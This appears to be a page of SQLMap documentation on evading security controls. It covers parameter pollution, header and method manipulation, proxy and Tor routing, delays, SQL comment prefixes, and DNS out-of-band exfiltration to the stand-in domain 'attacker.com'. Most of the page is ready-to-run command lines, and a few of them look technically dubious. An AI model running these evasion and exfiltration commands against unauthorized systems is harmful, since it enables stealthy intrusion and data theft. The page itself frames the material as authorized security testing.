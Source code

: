 ```yaml
---
title: Other Evasion Methods
description: Learn about additional evasion techniques in SQLMap to bypass security controls
---
```


# Other Evasion Methods

Beyond tamper scripts and WAF detection, SQLMap offers several additional methods to evade detection during security testing. These techniques can help bypass various security controls when used appropriately in authorized testing scenarios.

## HTTP Parameter Manipulation

### Parameter Pollution

Using multiple instances of the same parameter:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1&id=2" --param-del="&"
```

This technique can confuse some security filters that don't properly handle parameter pollution.

### Parameter Reordering

Changing the order of HTTP parameters:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="b=2&a=1&c=3" --param-del="&"
```

Some WAFs may only inspect the first few parameters or expect parameters in a specific order.

## HTTP Header Manipulation

### Custom Headers

Adding custom HTTP headers:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --headers="X-Forwarded-For: 127.0.0.1\nX-Custom-Header: Value"
```

This can bypass security controls that trust certain headers or don't inspect custom headers.

### Host Header Manipulation

Modifying the Host header:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --host="internal-system.local"
```

This can bypass security controls that rely on the Host header for validation.

## Request Method Switching

### Method Switching

Changing the HTTP method:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1" --method=PUT
```

Some security controls may only inspect GET and POST requests but not other HTTP methods.

### Method Obfuscation

Using non-standard HTTP methods:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --method=CUSTOM
```

This can sometimes bypass security controls that only check standard HTTP methods.

## Traffic Routing and Proxying

### Multiple Proxies

Routing through multiple proxies:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass" --proxy-file="proxies.txt"
```

The `--proxy-file` option allows you to specify a list of proxies to rotate through.

### Tor Network

Routing through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-port=9050 --tor-type=SOCKS5 --check-tor
```

This routes all SQLMap traffic through the Tor network, making it harder to trace and potentially bypassing IP-based restrictions.

## Timing and Rate Controls

### Request Delays

Adding random delays between requests:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --time-sec=10
```

This adds a 2-second delay between requests and sets a 10-second time for time-based blind injections.

### Throttling

Limiting the number of concurrent threads:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --threads=1
```

This can help avoid triggering rate-limiting mechanisms.

## Payload Obfuscation

### Inline Comments

Using inline comments in SQL statements:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="'/*" --suffix="*/--" --technique=B
```

This adds specific SQL comments before and after the injection payload.

### Custom Prefix and Suffix

Adding custom strings before and after the payload:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix=")" --suffix="AND(1=1"
```

This helps when the injection point is within a specific SQL context.

## Advanced Techniques

### Out-of-Band Exploitation

Using out-of-band channels for data exfiltration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dns-domain=attacker.com
```

This uses DNS requests for data exfiltration, which may bypass controls that only monitor HTTP traffic.

### Second-Order Injection

Testing for second-order SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --second-url="http://www.example.com/page.php?id=1" --second-req="second-request.txt"
```

This tests for vulnerabilities where the injection is stored and then executed in a different location.


## Combining Evasion Techniques

For maximum effectiveness, combine multiple evasion techniques:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent --tamper=between,charencode,randomcase --delay=2 --tor --proxy="http://proxy:8080" --level=5 --risk=3
```

This comprehensive approach combines:
- Random user agent
- Multiple tamper scripts
- Request delays
- Tor routing
- Additional proxy
- Maximum test level and risk
